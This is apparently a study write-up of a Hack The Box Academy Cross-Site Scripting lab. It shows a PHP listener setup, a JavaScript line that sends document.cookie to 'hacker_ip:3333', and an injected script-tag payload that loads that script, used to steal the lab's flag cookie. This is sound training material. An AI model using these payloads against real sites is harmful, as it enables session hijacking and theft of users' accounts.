We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.**Answers:**

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/HTB-CROSS_SITE-SCRIPTING-XSS-.png" >

## Let's start your server

```sudo php -S 0.0.0.0:3333```

### Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-server.png" >

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/inputs.png" >

### Great, it works!

### Let's check our cookie file.

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/cookie.png" >

## Happy Hacking!

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


